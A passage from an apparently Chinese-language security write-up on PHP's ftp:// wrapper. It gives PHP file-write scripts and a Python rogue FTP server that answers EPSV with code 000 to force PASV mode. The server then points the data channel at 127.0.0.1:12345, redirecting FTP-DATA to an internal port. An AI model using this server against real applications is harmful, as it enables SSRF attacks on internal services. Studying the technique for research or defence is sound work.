 ```php
php ftp_write.php 'ftp://test:test@192.168.187.3/home/test/test.txt' 'hello, world'
```

![image-20211112223440182](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211112223440182.png)

但是这里一直是可以新建文件但是写入不了，读入的参数2一直是int(0)，暂时还没解决问题（不过用下面那个写入很正常……

覆盖已存在文件

```php
<?php
$context = stream_context_create(array('ftp' => array('overwrite' => true)));
@var_dump(file_put_contents($argv[1], $argv[2], 0, $context));
```

```bash
php ftp_write_2.php 'ftp://test:test@192.168.187.3/home/test/test.txt' 'newwwwew'
```

![image-20211112225832777](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211112225832777.png)

#### 令php使用ftp://并转发FTP-DATA

将上面的操作用wireshark抓个包看看流量

![image-20211112230401822](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211112230401822.png)

可以看到用的是EPSV mode而不是PASV mode，不会有括号内的ip+port描述，FTP-DATA只会被打向控制连接的服务端的端口，不能做到FTP-DATA的任意转发

不过也不是毫无办法，如果用EPSV命令返回的结果不是229，那么php的ftp://就会使用PASV命令

将上面的ftp-server修改一下，将229响应设为了000

```python
import socket
print("[+] listening ...........")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('0.0.0.0', 9999))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 (vsFTPd 3.0.3)\r\n')
print(conn.recv(0xff))
conn.send(b'331 Please specify the password.\r\n')
print(conn.recv(0xff))
conn.send(b'230 Login successful.\r\n')
print(conn.recv(0xff))
conn.send(b'200 Switching to Binary mode.\r\n')
print(conn.recv(0xff))
conn.send(b"550 Could not get file size.\r\n")
print(conn.recv(0xff))
# responese with 000 , not 229
conn.send(b'000 use PASV then\r\n')
# then php will send PASV command
print(conn.recv(0xff))
# response to PASV command
conn.send(b'227 Entering Passive Mode (127,0,0,1,0,12345).\r\n')
print(conn.recv(0xff))
conn.send(b'150 Ok to send data.\r\n')
# sending payload .....
conn.send(b'226 Transfer complete.\r\n')
print(conn.recv(0xff))
conn.send(b'221 Goodbye.\r\n')
conn.close()
print("[+] completed ~~")
```
